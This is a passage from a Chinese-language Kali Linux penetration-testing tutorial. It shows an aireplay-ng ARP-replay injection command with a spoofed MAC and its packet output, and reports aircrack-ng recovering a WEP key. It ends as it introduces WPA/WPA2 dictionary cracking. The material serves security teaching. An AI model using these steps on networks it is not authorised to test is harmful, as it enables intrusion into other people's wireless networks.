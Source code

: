 （7）使用 aireplay 发送一些流量给无线路由器，以至于能够捕获到数据。语法格式如下所示：

```
aireplay-ng 3 -b [BSSID] -h [Our chosen MAC address] [Interface] 
```

执行命令如下所示：

```
root@kali:~# aireplay-ng -3 -b 14:E6:E4:AC:FB:20 -h 00:11:22:33:44:55 mon0
The interface MAC (00:C1:40:76:05:6C) doesn't match the specified MAC (-h).
  ifconfig mon0 hw ether 00:11:22:33:44:55
17:26:54 Waiting for beacon frame (BSSID: 14:E6:E4:AC:FB:20) on channel 1
Saving ARP requests in replay_arp-0515-172654.cap
You should also start airodump-ng to capture replies.
Notice: got a deauth/disassoc packet. Is the source MAC associated ?
Read 1259 packets (got 1 ARP requests and 189 ACKs), sent 198 packets…(499 pps
Read 1547 packets (got 1 ARP requests and 235 ACKs), sent 248 packets…(499 pps
Read 1843 packets (got 1 ARP requests and 285 ACKs), sent 298 packets…(499 pps
Read 2150 packets (got 1 ARP requests and 333 ACKs), sent 348 packets…(499 pps
Read 2446 packets (got 1 ARP requests and 381 ACKs), sent 398 packets…(499 pps
Read 2753 packets (got 1 ARP requests and 430 ACKs), sent 449 packets…(500 pps
Read 3058 packets (got 1 ARP requests and 476 ACKs), sent 499 packets…(500 pps
Read 3367 packets (got 1 ARP requests and 525 ACKs), sent 548 packets…(499 pps
Read 3687 packets (got 1 ARP requests and 576 ACKs), sent 598 packets…(499 pps
Read 4001 packets (got 1 ARP requests and 626 ACKs), sent 649 packets…(500 pps
Read 4312 packets (got 1 ARP requests and 674 ACKs), sent 699 packets…(500 pps
Read 4622 packets (got 1 ARP requests and 719 ACKs), sent 749 packets…(500 pps
Read 4929 packets (got 1 ARP requests and 768 ACKs), sent 798 packets…(499 pps
Read 5239 packets (got 1 ARP requests and 817 ACKs), sent 848 packets…(499 pps 
```

输出的信息就是使用 ARP Requests 的方式来读取 ARP 请求报文的过程，此时回到 airodump-ng 界面查看，可以看到 Test 的 Frames 栏的数字在飞速的递增。在抓取的无线数据报文达到了一定数量后，一般都是指 IVsX 值达到 2 万以上时，就可以开始破解，若不能成功就等待数据包文继续抓取，然后多尝试几次。

（8）使用 Aircrack 破解密码。执行命令如下所示：

![287-01](img/00439.jpg)

从输出的结果中可以看到 KEY FOUND，表示密码已经找到，为 abcde。

### 9.2.2 破解 WPA/WPA2 无线网络

WPA 全名为 Wi-Fi Protected Access，有 WPA 和 WPA2 两个标准。它是一种保护无线电脑网络安全的协议。对于启用 WPA/WPA2 加密的无线网络，其攻击和破解步骤及攻击是完全一样的。不同的是，在使用 airodump-ng 进行无线探测的界面上，会提示为 WPA CCMP PSK。当使用 aireplay-ng 进行攻击后，同样获取到 WPA 握手数据包及提示；在破解时需要提供一个密码字典。下面将介绍破解 WPA/WPA2 无线网络的方法。
